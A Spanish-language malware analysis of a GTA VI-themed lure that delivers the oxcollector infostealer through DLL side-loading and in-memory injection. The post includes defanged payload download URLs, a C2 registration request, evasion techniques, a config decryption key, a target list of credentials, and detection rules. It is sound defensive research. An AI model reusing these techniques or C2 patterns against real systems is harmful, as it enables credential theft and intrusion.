

> **TLP:CLEAR** · Confianza global: **alta** en la cadena y la configuración, **media** en la infraestructura · Análisis estático: 21 de noviembre de 2026 · Última actualización: 2026-11-21
{: .prompt-info .notranslate translate="no" }

> **Punto de partida y autoría.** La campaña la señaló **Threat Landscape** ([@LandscapeThreat](https://x.com/LandscapeThreat)) el 21 de noviembre de 2026, y **Bitdefender Labs** publicó el día anterior el primer análisis de un build anterior. El nombre **oxcollector** ya aparecía como etiqueta en **ThreatFox**, en un indicador enviado por **JaffaCakes118** en VirusTotal.
>
> **Mi aportación** es el análisis estático de un **build nuevo**, con hashes distintos de los publicados: las tres etapas descifradas, la configuración completa del C2, las 8.172 direcciones del clipper, el catálogo de objetivos, la infraestructura relacionada y las reglas de detección.
{: .prompt-tip }

## Ideas clave

**GTA VI** salió el 19 de noviembre de 2026 solo para PlayStation 5 y Xbox Series. Dos días antes se registró `gta6cloud[.]nexus`, una web que ofrece "jugar en PC" a través de un supuesto servicio de streaming desde consolas reales. El "cliente" es un dropper que acaba cargando en memoria un infostealer en Rust.

Lo que aporta este análisis:

1. **Un build nuevo del mismo operador.** Los cuatro hashes son distintos de los de Bitdefender y el dropper se compiló el **21 de noviembre a las 14:30 UTC**, un día después de su publicación. El identificador del bot es el mismo (`0xFBC83D63C5EAEEE9`), así que es **el mismo operador**.
2. **Toda la cadena descifrada.** Del dropper a la DLL de side-loading, de ahí al inyector `PhotoCache.exe` y al stealer, que se llama internamente **oxcollector** (`C:\Users\user\Desktop\Panael\native\oxcollector`). Las etapas 2 y 3 nunca tocan el disco.
3. **Más C2 de lo publicado.** Además de `/api/bootstrap` y `/api/upload`, el stealer tiene rutas de **tareas del operador**, **retransmisión de pantalla en directo**, **eventos del clipper**, comprobación de **sandbox** y un **proxy SOCKS5 inverso** en el puerto 7777.
4. **Un clipper con 8.172 direcciones.** Sustituye las direcciones de nueve criptomonedas por otra del atacante que **empieza por los mismos dos caracteres**. A 21 de noviembre, ninguna de las 145 comprobadas tenía movimientos.
5. **Objetivos de desarrollador e IA.** Además de navegadores, wallets y Telegram, roba credenciales de **Claude Code, Cursor, OpenAI, GitHub, servidores MCP** y claves de nube.
6. **Público de habla rusa.** El launcher está en inglés y ruso, el canal de Telegram está en ruso y el stealer busca carpetas como `Рабочий стол` o `Загрузки`. Es una inferencia sobre el público objetivo, no una atribución.
7. **Un hub de descargas reutilizado.** `velmontriq[.]net` sirve el malware desde la ruta `MoggyDayHub/gta6console`, y ThreatFox lo había etiquetado antes como **falso launcher de Minecraft**.

## Contexto

Los señuelos con GTA VI no son nuevos: en 2026 ha habido falsas betas, demos y "versiones filtradas" que distribuían otros stealers. Lo que hace distinta a esta campaña es que **explota que no hay versión de PC**: no ofrece descargar el juego, sino un cliente que, supuestamente, lo transmite desde una consola real.

Bitdefender Labs publicó el **20 de noviembre** el análisis de un build anterior: una web con dos opciones de instalación (un ZIP o un comando **ClickFix** de PowerShell), un dropper hecho con **Tauri**, side-loading con `unlodctr.exe` y un stealer en Rust **sin nombre de familia**, con el C2 en `nimbuskeep[.]com`.

## Punto de partida

El punto inicial fue la publicación de Threat Landscape del 21 de noviembre, con tres dominios y una IP: `gta6cloud[.]nexus`, `nimbuskeep[.]com`, `velmontriq[.]net` y `192.30.240[.]26`.

{: w="560" }

## Metodología

1. **Infraestructura:** WHOIS, DNS, certificados, VirusTotal, urlscan, AbuseIPDB y MODAT sobre los tres dominios.
2. **Obtención del cliente** desde la web del señuelo y análisis de sus strings (FLOSS) y de su comportamiento de red y disco con Process Monitor, sin que llegara a descargar la siguiente etapa.
3. **Análisis estático** de `loadperf.dll` con un desempaquetador propio: descifrado de la capa `BLXO` y del recurso `PHOTO`, extracción de las etapas 2 y 3 y de la configuración `OXSE`.
4. **Ghidra** para el inyector y el stealer, con dos scripts propios para descifrar las strings ocultas (XOR `0xA0`) y exportar la configuración del clipper.
5. **Comprobación on-chain** de una muestra de las direcciones del clipper y **contraste** con Bitdefender y ThreatFox.

<div class="notranslate" translate="no" markdown="1">


</div>

Las cajas con borde discontinuo son las etapas que solo existen en memoria.

## Hallazgos

### 1. El señuelo: "GTA 6 is out. Play on PC"

`gta6cloud[.]nexus` imita la estética del juego y explica un servicio inexistente: la partida corre en una Xbox o una PS5 "en una sala" y la imagen llega al PC. Ofrece dos formas de instalar el cliente:

- **Descarga directa** de un ZIP con `GTA6Cloud.exe`.
- **Win+R y un comando de PowerShell**, la técnica **ClickFix**, que descarga y ejecuta un script con `irm | iex` saltándose la política de ejecución.


La web enlaza a un canal de Telegram, `t.me/gta6cloudnexus`, presentado en ruso como canal oficial y de soporte, con 79 suscriptores cuando lo revisé.

{: w="700" }

**Registro y alojamiento:**

| Elemento | Valor |
|---|---|
| Dominio | `gta6cloud[.]nexus`, activo desde el **17 de noviembre de 2026** (Tucows) |
| DNS | Njalla (`1-you.njalla.no`, `2-can.njalla.in`, `3-get.njalla.fo`) |
| IPs observadas | `185.219.128[.]160` (FlokiNET, AS200651, Islandia), `213.193.244[.]19` y `213.193.244[.]42` (TrueFullstaq, Países Bajos), `103.139.48[.]154` (MHost, AS200823) |
| Certificado | Let's Encrypt (YE2), válido desde el 21 de noviembre de 2026 a las 12:13 UTC |
{: .notranslate translate="no" }

{: w="520" }

El hash del favicon permite pivotar en MODAT y confirma `213.193.244[.]19` como otro servidor del mismo sitio:

```text
same_service(port=80 protocol="http" transport="tcp" http.files.sha256=8797c19c0ac6ed4d5d11a4d671dcf2db1bbc559da1d802314e858d0efc981942)
```
{: .notranslate translate="no" }


Las huellas JARM de estos servidores aparecen en decenas de miles de hosts en Shodan y MODAT, así que **no sirven como indicador**.

### 2. El dropper: GTA6Cloud.exe

| Campo | Valor |
|---|---|
| SHA256 | `8694611d60ecf5f7d611431272ee4be9ec9b69162a0c827f510467c866d522e6` |
| Tipo | PE x64, Rust con **Tauri 2.12.6** y WebView2, unos 12 MB |
| Identificador | `nexus.gta6cloud.hall.floki`, PDB `launcher.pdb`, versión 0.2.0 |
| Compilación | **21 de noviembre de 2026, 14:30:15 UTC** |
| Firma | Autofirmada: `CN=GTA6Cloud Hall Floki, O=GTA6Cloud Nexus` (SHA1 `0F336AD0…4702`) |
{: .notranslate translate="no" }

Al abrirlo muestra un launcher creíble en inglés o ruso, con política de privacidad, selección de "salas" y ajustes de streaming.


Mientras tanto, descarga la pareja de side-loading desde `velmontriq[.]net`, la guarda en una carpeta que imita la caché de iconos de Windows y la oculta con `attrib +H`:

```text
hxxps://velmontriq[.]net/hub/gta6console/unlodctr.exe
hxxps://velmontriq[.]net/hub/gta6console/loadperf.dll
%LOCALAPPDATA%\Microsoft\Windows\Explorer\IconCacheToDelete\b8c41e70\
```
{: .notranslate translate="no" }


Las strings del dropper incluyen **mensajes en ruso para la víctima** por si el antivirus bloquea la ejecución, como `Антивирус или SmartScreen заблокировал запуск unlodctr.exe. Добавьте папку в исключения` ("El antivirus o SmartScreen bloqueó unlodctr.exe. Añade la carpeta a las exclusiones"). El propio malware **pide a la víctima que desactive su protección**.


### 3. Side-loading y descifrado en capas

`unlodctr.exe` es el binario legítimo de Windows para descargar contadores de rendimiento. Al ejecutarse fuera de `System32`, carga la `loadperf.dll` que tiene al lado.

| Campo | Valor |
|---|---|
| SHA256 | `2cd54f272d8dccd186c9b0aeedc9b3f05325bb3409cef965bd05af9a93ca7186` |
| Tamaño | 5.376.527 bytes: 22 KB de código y 5,3 MB cifrados al final, con la marca `BLXO` |
| Versión falsa | "Load and Unload Performance Counters" 10.0.26100.2281, sin firmar |
{: .notranslate translate="no" }

La DLL **solo continúa si el proceso que la carga se llama `unlodctr.exe`**, una comprobación anti-sandbox sencilla. Después descifra la capa `BLXO` en cuatro pasos (desentrelazado, sustitución por tabla, RC4 y XOR) y carga el resultado directamente en memoria.


**Etapa 2, `PhotoCache.exe`** (solo en memoria):

- Comprueba si está en una máquina virtual (Bochs, VirtualBox, Sandboxie).
- Intenta añadir una **exclusión de Defender** por WMI, que solo funciona con privilegios de administrador.
- Descifra su recurso `PHOTO`, que contiene la configuración `OXSE` y la etapa 3.
- Lanza en suspensión un proceso legítimo (`dllhost`, `waitfor`, `where`, `RuntimeBroker`, `sihost` o `aitstatic`) y le **inyecta el stealer por APC** (*early-bird*).


La configuración `OXSE` va cifrada con **ChaCha20-Poly1305**, y la etiqueta Poly1305 confirma que el descifrado es correcto. Contiene el C2:


`PhotoCache` registra el equipo con un `POST` a `/api/bootstrap`, con el agente de usuario `PhotoCache/1.6` y una firma HMAC-SHA256 en la cabecera `X-Ox-Bootstrap`:

```text
POST hxxps://nimbuskeep[.]com/api/bootstrap
User-Agent: PhotoCache/1.6
X-Ox-Bootstrap: <HMAC-SHA256 del cuerpo>
{"bid":18142818597593607913,"hwid":"…","nonce":"…","ts":…}
```
{: .notranslate translate="no" }


El `bid` 18142818597593607913 es, en hexadecimal, `0xFBC83D63C5EAEEE9`: **el mismo identificador de bot que publicó Bitdefender**.

### 4. oxcollector, el stealer

La etapa 3 es un ejecutable en Rust que solo existe en memoria. El PDB es `locale_sync.pdb`, se compiló el **19 de noviembre de 2026** y deja ver la ruta del proyecto: `C:\Users\user\Desktop\Panael\native\oxcollector`. Sus strings internas van ocultas con XOR `0xA0`.

Con el script de Ghidra se descifran todas de golpe. Un extracto de la salida (dirección virtual y string; las contiguas salen concatenadas):

```text
14022d320  ClaudeDesktopChatGPTDesktop
140232752  CLAUDE_CONFIG_DIR.credentials.jsoncredentials.jsonsettings.local.json.claude.jsonAnthropic
140232866  .awsssocachekiro-auth-token.jsonKiro
14022de90  SKIP telegram (panel plan)
14022e2b2  RETRY upload: gate checkRETRY upload: blocked by panelRETRY upload: zip_tree failed
14024e5ba  chromeavastbravecopy_onlyedgeWINDIRrundll32.exe--headless=new --no-startup-window --window-position=-32000,-32000 --window-size=1,1 --disable-gpu --disable-exte...
14024e76e  ox_abe_inject.dll
140235c4e  # Tesseract BIP39 extract (Rhadamanthys v0.7-style)# enginewinocr# root# images_ocr# hits...
14023bff2  "],"copy_locked_files":true,"evasion_profile":"balanced","max_depth":2,"max_file_size_bytes":2097152,"max_total_bytes":20971520,...
```
{: .notranslate translate="no" }

📥 [Salida completa del descifrado]({{ '/assets/files/gta6cloud/oxcollector_strings_descifradas.txt' | relative_url }}) (unas 280 entradas). He omitido el secreto SOCKS5/HMAC del C2 y un valor de 32 bytes que no he podido identificar.

**Qué roba**, según sus módulos y su catálogo de objetivos:

| Categoría | Detalle |
|---|---|
| Navegadores | Cookies y contraseñas de 16 familias Chromium (con **bypass de App-Bound Encryption**) y de Firefox y derivados |
| Wallets | **160 extensiones de Chromium** y 24 de Firefox (MetaMask, Phantom, Trust, Rabby, OKX…) y 53 aplicaciones de escritorio (Exodus, Electrum, Bitcoin Core, Monero, Ledger Live…) |
| Frases semilla | Busca en textos, documentos e **imágenes con OCR**: al menos 9 palabras BIP39 seguidas |
| Mensajería y juegos | Telegram (`tdata` y forks como AyuGram o Kotatogram), Discord y sus clientes alternativos (tokens, **códigos MFA de respaldo** y métodos de pago), Steam (tokens JWT), WhatsApp Web, Tox |
| Desarrollo e IA | **Claude Desktop y Claude Code**, ChatGPT Desktop, OpenAI, Cursor, Codex, Gemini CLI, Grok CLI, Copilot, Windsurf, Kiro, Codeium, Cline, Roo Code, Continue, aider, Goose, OpenCode, OpenHands, **servidores MCP**, GitHub CLI, claves SSH y claves de AWS |
| Ficheros | Escritorio, Documentos y Descargas, también **con sus nombres en ruso**: `.txt`, `.pdf`, `.docx`, `.kdbx`, `.ovpn`, `.rdp`… Hasta 2 MB por fichero y 20 MB en total, incluso si están bloqueados |
| Otros | 19 extensiones de gestores de contraseñas (Bitwarden, 1Password, LastPass…), KeePass, Administrador de credenciales de Windows, AnyDesk, WinSCP, cookies de exchanges (Binance, Coinbase, Kraken…), apps de minería (NiceHash, Kryptex, Salad…), historial del portapapeles, capturas de pantalla |
{: .notranslate translate="no" }

**Cómo se comunica.** Todas las rutas son de `nimbuskeep[.]com`, con `192.30.240[.]26` como IP de respaldo:

| Ruta | Función |
|---|---|
| `/api/bootstrap` | Registro del equipo y obtención de credenciales de subida |
| `/api/upload` y `/PHvW7_rVg1UJy-vl/data` | Subida en trozos de lo robado |
| `/vIh4CFRDznE5XDX6/check` y `/api/sandbox-check` | Comprobación previa: el panel decide si el equipo es un sandbox o está bloqueado |
| `/api/task-poll`, `/api/task-progress`, `/api/task-complete` | **Tareas del operador** |
| `/api/watch-frame` | **Retransmisión de la pantalla en directo** (JPEG) |
| `/api/clipper-event` | Avisos de cada sustitución del clipper |
| `:7777` | **Proxy SOCKS5 inverso**: el equipo de la víctima sirve de proxy al operador |
{: .notranslate translate="no" }

Bitdefender menciona las dos primeras rutas y la conexión al puerto 7777. El resto, el proxy SOCKS5 inverso y la retransmisión de pantalla **no aparecen en lo publicado**.

**Otros detalles que dejan ver las strings descifradas:**

- **El panel decide qué se roba.** Mensajes como `SKIP telegram (panel plan)` o `RETRY upload: blocked by panel` indican que el operador puede saltarse módulos o frenar subidas desde el panel.
- **Bypass de App-Bound Encryption.** Lanza Chrome, Edge o Brave con `--headless=new` y la ventana fuera de la pantalla (`--window-position=-32000,-32000`) y les inyecta `ox_abe_inject.dll`, con `rundll32` o con `CreateRemoteThread` + `LoadLibraryW`. Las variables `OX_ABE_HWBP*` apuntan a una alternativa con breakpoints de hardware, que **no he confirmado**.
- **Se hace pasar por procesos del sistema.** Junto a `OX_MASQ_NAME` aparecen las rutas de `dllhost.exe`, `WmiPrvSE.exe` y `TextInputHost.exe`.
- **Informe del equipo.** El fichero `System.txt` recoge sistema operativo, antivirus, HWID, CPU, GPU, RAM, IP pública y local, país, idioma y resolución de pantalla.

**Persistencia y sigilo:**

- Copia la pareja `unlodctr.exe` + `loadperf.dll` a `%LOCALAPPDATA%\Microsoft\Windows\Caches\` y la arranca desde la clave `Run` del usuario, aprobada en `StartupApproved\Run`.
- **Desactiva el aviso de Windows de "nueva aplicación de inicio"** en `Notifications\Settings\Windows.SystemToast.StartupApp`.
- Usa un mutex con prefijo `ox-pla-mtx-` y pasa la configuración entre etapas con variables de entorno `OX_*`.
- Las strings apuntan además a una tarea programada y a un *watchdog* que reinstala la persistencia; el nombre exacto de la tarea **no lo he confirmado**.

Entre las strings aparece el comentario `# Tesseract BIP39 extract (Rhadamanthys v0.7-style)`. Indica que el autor copió la idea del OCR de frases semilla de Rhadamanthys, **no que esté relacionado** con esa familia. Pese a mencionar Tesseract, las strings apuntan a que el OCR usa el motor de Windows (`winocr`, `Windows.Media.Ocr.OcrEngine`).

### 5. El clipper: 8.172 direcciones a medida

El clipper vigila el portapapeles y, cuando la víctima copia una dirección de criptomoneda, la sustituye por otra del atacante **que empieza por los mismos dos caracteres** (`"prefix_chars": 2`). Así la dirección parece correcta a simple vista. Para cubrir todos los prefijos posibles, la configuración incluye **8.172 direcciones**:

| Moneda | Direcciones | Moneda | Direcciones |
|---|---|---|---|
| Solana | 3.364 | Ethereum / EVM | 256 |
| XRP | 3.364 | Bitcoin | 32 |
| Monero | 563 | Litecoin | 32 |
| TON | 512 | Tron | 25 |
| | | Dogecoin | 24 |
{: .notranslate translate="no" }

El **21 de noviembre** comprobé 145 direcciones: todas las de Bitcoin, Litecoin, Dogecoin y Tron, y muestras de Ethereum, XRP y TON. **Ninguna tenía movimientos.** No he podido comprobar las de Solana y Monero, ni las EVM en otras redes, y no he encontrado ninguna de ellas en fuentes públicas.

📥 Descarga las 8.172 direcciones en [TSV]({{ '/assets/files/gta6cloud/oxcollector_clipper_addresses.tsv' | relative_url }}) o la configuración completa del clipper en [JSON]({{ '/assets/files/gta6cloud/oxcollector_clipper_config.json' | relative_url }}). Pueden servir a exchanges y equipos de cumplimiento para bloquear o vigilar pagos.

### 6. La infraestructura de distribución

**`velmontriq[.]net`**, el hub de descargas:

- Registrado el **17 de septiembre de 2026**, dos meses antes que el señuelo.
- MODAT lo relaciona con `93.190.247[.]190` (certificado desde el 10 de noviembre, con la misma JARM que los servidores del señuelo) y `45.95.99[.]100`, que aloja además `reviewsaja[.]com` y `pinolakuzakakolavonefozi[.]life`.
- El dropper lo llama con el identificador `MoggyDayHub/gta6console/660e82db8e57f5065b916f77739f1e9d`. **`gta6console` es la ruta de esta campaña dentro de un hub que sirve varias.**
- **JaffaCakes118** lo registró en ThreatFox con las etiquetas `oxcollector`, `MoggyDayHub` y **`fake-minecraft-launcher`**. El mismo hub ya había distribuido el stealer con un falso launcher de Minecraft.

{: w="420" }

**`192.30.240[.]26`**, la IP de respaldo del C2, resuelve también `nongqiaoxi.duckdns[.]org` y `kytmx[.]org`. Compartir IP no prueba que sean del mismo operador, así que no los incluyo como indicadores.

**urlscan** registra seis escaneos de `gta6cloud[.]nexus` desde el 19 de noviembre, incluida la ruta `/gta-6-without-console`.


### 7. Un build nuevo del mismo operador

| | Build de Bitdefender (20 nov) | Este build (21 nov) |
|---|---|---|
| `GTA6Cloud.exe` | `28f9725f…10e8` | `8694611d…22e6` |
| `loadperf.dll` | `18dd6427…ab38` | `2cd54f27…7186` |
| `PhotoCache.exe` | `33f16499…04f3` | `6f38c047…c0df` |
| Carpeta | `IconCacheToDelete\0a3f2c91` | `IconCacheToDelete\b8c41e70` |
| Identificador del bot | `0xFBC83D63C5EAEEE9` | `0xFBC83D63C5EAEEE9` |
{: .notranslate translate="no" }

El inyector lleva **1.026 bytes de relleno aleatorio** al final. Probablemente sirve para que cada build tenga un hash distinto, así que **buscar solo por hash se queda corto**: las reglas de comportamiento de la sección de detección cubren las dos versiones.

## Cronología

| Fecha | Evento | Fuente |
|---|---|---|
| 2025-04-27 | Fecha de compilación que declara `loadperf.dll`, probablemente falsa | Análisis propio |
| 2026-09-17 | Registro de `velmontriq[.]net` | WHOIS |
| 2026-11-10 | Certificado de `93.190.247[.]190`, relacionado con el hub | MODAT |
| 2026-11-17 | Se activa `gta6cloud[.]nexus` | RDAP |
| 2026-11-19 | Lanzamiento de GTA VI en consolas; compilación del stealer (`locale_sync`) | Prensa / análisis propio |
| 2026-11-20 | Bitdefender publica el análisis de un build anterior | Bitdefender |
| 2026-11-21 | Threat Landscape publica los indicadores | X |
| 2026-11-21 14:30 UTC | Compilación del dropper analizado aquí | Análisis propio |
{: .notranslate translate="no" }

## Indicadores

Todos los valores de red están defangeados. Incluyo los hashes de los dos builds.



📥 [Descargar IOCs en CSV]({{ '/assets/iocs/gta6cloud-oxcollector.csv' | relative_url }})

**Claves de la configuración.** Para que otros analistas puedan descifrar nuevas muestras, publico la clave con la que se sella la configuración `OXSE` (ChaCha20-Poly1305): `707f5f12cc7a820f4ad8c3773a8387982ca66e16b0e0df9a6acfcbab04430eab`.

**Las credenciales que dan acceso al C2** (la clave HMAC del registro, el token de subida por defecto y el secreto del proxy SOCKS5) **las omito a propósito**: permitirían a cualquiera interactuar con el panel del operador. Puedo compartirlas con CERT o equipos de respuesta que las necesiten.
{: .prompt-warning }

## Mapeo MITRE ATT&CK

| Técnica | Nombre | Dónde |
|---|---|---|
| [T1204.004](https://attack.mitre.org/techniques/T1204/004/) | User Execution: Malicious Copy and Paste | Comando ClickFix de la web |
| [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | User Execution: Malicious File | `GTA6Cloud.exe` |
| [T1036](https://attack.mitre.org/techniques/T1036/) | Masquerading | Carpetas de caché de Windows, versión falsa de la DLL |
| [T1105](https://attack.mitre.org/techniques/T1105/) | Ingress Tool Transfer | Descarga desde `velmontriq[.]net` |
| [T1574.001](https://attack.mitre.org/techniques/T1574/001/) | Hijack Execution Flow: DLL | `unlodctr.exe` + `loadperf.dll` |
| [T1620](https://attack.mitre.org/techniques/T1620/) | Reflective Code Loading | Etapas 2 y 3 solo en memoria |
| [T1027](https://attack.mitre.org/techniques/T1027/) / [T1140](https://attack.mitre.org/techniques/T1140/) | Obfuscated Files / Deobfuscate | Capa `BLXO`, recurso `PHOTO`, XOR `0xA0` |
| [T1055.004](https://attack.mitre.org/techniques/T1055/004/) | Process Injection: APC | Inyección en `waitfor`, `dllhost`… |
| [T1497.001](https://attack.mitre.org/techniques/T1497/001/) | Virtualization/Sandbox Evasion | Bochs, VirtualBox, Sandboxie, nombre del proceso |
| [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | Impair Defenses | Exclusión de Defender y mensajes a la víctima |
| [T1547.001](https://attack.mitre.org/techniques/T1547/001/) | Registry Run Keys | `Run` y `StartupApproved\Run` |
| [T1564.001](https://attack.mitre.org/techniques/T1564/001/) | Hidden Files and Directories | `attrib +H` |
| [T1555.003](https://attack.mitre.org/techniques/T1555/003/) / [T1539](https://attack.mitre.org/techniques/T1539/) | Credentials from Web Browsers / Steal Web Session Cookie | Módulos de navegadores |
| [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | Credentials in Files | Credenciales de IA, desarrollo y nube |
| [T1115](https://attack.mitre.org/techniques/T1115/) / [T1113](https://attack.mitre.org/techniques/T1113/) | Clipboard Data / Screen Capture | Clipper, capturas y retransmisión |
| [T1090](https://attack.mitre.org/techniques/T1090/) | Proxy | SOCKS5 inverso en el puerto 7777 |
| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) / [T1041](https://attack.mitre.org/techniques/T1041/) | Web Protocols / Exfiltration Over C2 | HTTPS a `nimbuskeep[.]com` |

Todas proceden del análisis estático del código; ninguna se ha observado en ejecución.

## Hunting / detección

He preparado tres paquetes de detección, que puedes descargar:

- 📥 [12 reglas Sigma]({{ '/assets/files/gta6cloud/gta6cloud_sigma_rules.zip' | relative_url }}), validadas con pySigma 1.5.1.
- 📥 [12 consultas KQL para Microsoft Defender XDR]({{ '/assets/files/gta6cloud/gta6cloud_queries_defender.kql' | relative_url }}).
- 📥 [14 firmas de Suricata]({{ '/assets/files/gta6cloud/gta6cloud_suricata.rules' | relative_url }}), validadas con Suricata 7.0.3.

No las he podido probar contra datos reales de un entorno de producción.

### La señal más fiable

**`unlodctr.exe` ejecutándose fuera de `System32`**, sobre todo si lanza procesos hijos. Un administrador casi nunca usa esta herramienta, y desde una carpeta de usuario no tiene ninguna razón legítima:

```text
DeviceProcessEvents
| where FolderPath endswith @"\unlodctr.exe" or ProcessVersionInfoOriginalFileName =~ "unlodctr.exe"
| where not(FolderPath startswith @"C:\Windows\System32\" or FolderPath startswith @"C:\Windows\SysWOW64\" or FolderPath startswith @"C:\Windows\WinSxS\")
| project Timestamp, DeviceName, AccountName, FolderPath, ProcessCommandLine, InitiatingProcessFileName, SHA256
```
{: .notranslate translate="no" }

### Reglas Sigma

| Regla | Nivel | Qué detecta |
|---|---|---|
| `proc_creation_win_unlodctr_suspicious_child` | Crítico | `unlodctr.exe` lanzando los procesos donde se inyecta |
| `proc_creation_win_gta6cloud_dropper` | Crítico | El dropper por versión, hash o procesos hijos |
| `dns_query_win_gta6cloud_c2` | Crítico | Resolución de los tres dominios |
| `proc_creation_win_unlodctr_outside_system32` | Alto | `unlodctr.exe` fuera de las rutas del sistema |
| `image_load_win_loadperf_sideload` | Alto | `loadperf.dll` cargada fuera de `System32` |
| `file_event_win_gta6cloud_sideload_pair_drop` | Alto | La pareja escrita en carpetas de caché falsas |
| `proc_creation_win_oxcollector_abehost_rundll32` | Alto | El bypass de App-Bound Encryption de Chrome |
| `registry_set_win_gta6cloud_persistence` | Alto | `Run` y `StartupApproved` apuntando a la pareja |
| `win_defender_exclusion_cache_paths` | Alto | Exclusiones de Defender en rutas de usuario |
| `net_connection_win_oxcollector_c2_ip` | Alto | IP de respaldo y puerto 7777 |
| `proxy_gta6cloud_oxcollector_http` | Alto | Agente de usuario, rutas y hosts del C2 |
| `registry_set_win_disable_startupapp_toast` | Medio | Aviso de inicio desactivado |
{: .notranslate translate="no" }

### Red

Sin inspección TLS solo se ven el DNS y el SNI. Las firmas de cabeceras HTTP (`X-Ox-Bootstrap`, `X-Upload-Phase`, `X-Ox-Watch-Id`) necesitan inspección TLS:

```text
alert tls $HOME_NET any -> $EXTERNAL_NET any (msg:"oxcollector TLS SNI nimbuskeep.com"; tls.sni; dotprefix; content:".nimbuskeep.com"; endswith; nocase; classtype:trojan-activity; sid:9260013; rev:1;)
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"PhotoCache injector bootstrap (UA PhotoCache/1.6 + X-Ox-Bootstrap)"; flow:to_server,established; http.method; content:"POST"; http.user_agent; content:"PhotoCache/"; startswith; http.header_names; content:"X-Ox-Bootstrap"; nocase; classtype:trojan-activity; sid:9260032; rev:1;)
```
{: .notranslate translate="no" }

### Si un equipo ejecutó GTA6Cloud

Trátalo como **comprometido por completo**: el stealer sube los datos en minutos y puede seguir activo como proxy.

1. **Aísla el equipo** y bloquea los tres dominios y `192.30.240[.]26`.
2. **Desde otro dispositivo limpio:** cambia las contraseñas guardadas en los navegadores y cierra todas las sesiones (correo, redes, banca, Telegram, Discord, Steam, WhatsApp Web).
3. **Revoca las claves de IA y desarrollo:** Anthropic, OpenAI, Cursor, tokens de GitHub, claves de nube, claves SSH y sesiones MCP.
4. **Mueve los fondos** de los wallets a wallets nuevos, creados en un equipo limpio y con frases semilla nuevas.
5. **Reinstala el sistema.** La persistencia se reinstala sola y el operador puede enviar tareas nuevas.

### Prevención

- **Bloquea `unlodctr.exe` fuera de `System32`** con AppLocker o WDAC.
- Activa la **protección contra manipulaciones** de Defender y la regla ASR que bloquea ejecutables poco comunes.
- **Ningún programa legítimo pide añadir carpetas a las exclusiones del antivirus** ni pegar comandos en Win+R. Conviene recordarlo a los usuarios, sobre todo en plena fiebre de GTA VI.

## Reproducibilidad

Publico los scripts y los datos extraídos para que se puedan analizar otros builds:

| Fichero | Qué hace |
|---|---|
| 📥 [`gta6cloud_unpack.py`]({{ '/assets/files/gta6cloud/gta6cloud_unpack.py' | relative_url }}) | Desempaquetador estático: a partir de `loadperf.dll` extrae las etapas 2 y 3 y descifra la configuración `OXSE`. Reimplementa los algoritmos de descifrado y **no ejecuta código de la muestra** |
| 📥 [`DecodeOxcollectorStrings.py`]({{ '/assets/files/gta6cloud/DecodeOxcollectorStrings.py' | relative_url }}) | Script de Ghidra: descifra las strings ocultas (XOR `0xA0`) de la etapa 3 y las anota en el listado |
| 📥 [`ExportClipperConfig.py`]({{ '/assets/files/gta6cloud/ExportClipperConfig.py' | relative_url }}) | Script de Ghidra: exporta la configuración del clipper a JSON y TSV |
| 📥 [`gta6cloud_strings.zip`]({{ '/assets/files/gta6cloud/gta6cloud_strings.zip' | relative_url }}) | Strings en bruto de las tres piezas: FLOSS del dropper, etapa 2 y etapa 3. **Las URL no están defangeadas** |
| 📥 [`oxcollector_strings_descifradas.txt`]({{ '/assets/files/gta6cloud/oxcollector_strings_descifradas.txt' | relative_url }}) | Salida de `DecodeOxcollectorStrings.py`: las strings descifradas de la etapa 3, sin el secreto del C2 |
| 📥 [`oxcollector_clipper_config.json`]({{ '/assets/files/gta6cloud/oxcollector_clipper_config.json' | relative_url }}) | Configuración del clipper descifrada |
| 📥 [`oxcollector_clipper_addresses.tsv`]({{ '/assets/files/gta6cloud/oxcollector_clipper_addresses.tsv' | relative_url }}) | Las 8.172 wallets del atacante, una por línea |
| 📥 [`oxcollector_target_catalog.json`]({{ '/assets/files/gta6cloud/oxcollector_target_catalog.json' | relative_url }}) | Catálogo de objetivos: extensiones, wallets de escritorio, navegadores y reglas del grabber |

El desempaquetador se usa así y necesita `pefile` y `cryptography`:

```text
python3 -I gta6cloud_unpack.py loadperf.dll salida/
```
{: .notranslate translate="no" }

- Las direcciones de las claves y las tablas son las de este build: **en otros builds pueden cambiar**.
- Dos ejecuciones independientes del desempaquetador dieron exactamente los mismos hashes.
- Los scripts de Ghidra funcionan con Jython 2.7 y PyGhidra. Su lógica de descifrado está probada contra la muestra, pero no se han ejecutado dentro de Ghidra.
- Trabaja siempre con las muestras en una máquina aislada.

## Limitaciones y nivel de confianza

- **Solo análisis estático ejecución ( sin llegar a la stage 2 ).** El comportamiento observado sale principalmente de las strings descifradas, las importaciones y el desensamblado. El nombre de la tarea programada, el valor exacto de `Run`, si el ZIP robado va cifrado y el uso de algunas variables `OX_*` **no están confirmados**.
- **Público objetivo.** Que el launcher, el canal y las rutas estén en ruso indica a quién se dirige la campaña, no quién está detrás.
- **Atribución.** Bitdefender documenta la misma campaña y el mismo identificador de bot, pero no nombra ni al actor ni a la familia. **No atribuyo la campaña a nadie.** El comentario sobre Rhadamanthys no permite relacionarla con esa familia.
- **Nombre de la familia.** `oxcollector` es el nombre interno del proyecto. Ya figuraba como etiqueta en ThreatFox, así que no es una denominación mía.
